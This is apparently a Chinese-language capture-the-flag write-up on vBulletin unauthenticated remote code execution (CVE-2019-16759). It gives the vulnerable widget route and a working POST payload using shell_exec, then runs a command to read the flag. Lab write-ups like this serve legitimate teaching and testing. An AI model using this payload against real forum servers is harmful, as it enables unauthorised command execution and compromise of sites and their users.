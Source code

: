 # vbulletin 远程代码执行(CVE-2019-16759)
## 漏洞描述
vBulletin 是一款强大，灵活并可完全根据自己的需要定制的论坛程序套件。尽管是商业产品，但从市场份额和实际使用量上看，vBulletin还是当今最受欢迎的Web论坛软件包。 该漏洞允许攻击者在不拥有目标论坛账户的情况下，在运行vBulletin的服务器上执行Shell命令，是一个无需身份验证的远程代码执行漏洞。

## 影响版本
5.0.0 <= vBulletin <=5.5.4

## 利用流程
1.访问地址：http://118.193.36.37:55678
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/vbulletin%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2019-16759)/1.jpg)
2.访问存在漏洞的页面:
```
/index.php?routestring=ajax/render/widget_php
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/vbulletin%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2019-16759)/2.jpg)
3.post传值：
```
widgetConfig[code] = echo shell_exec('cmd'); exit;
```
在cmd处填入想要执行的命令
4.使用命令 ls /tmp得到flag：

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/vbulletin%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2019-16759)/3.jpg)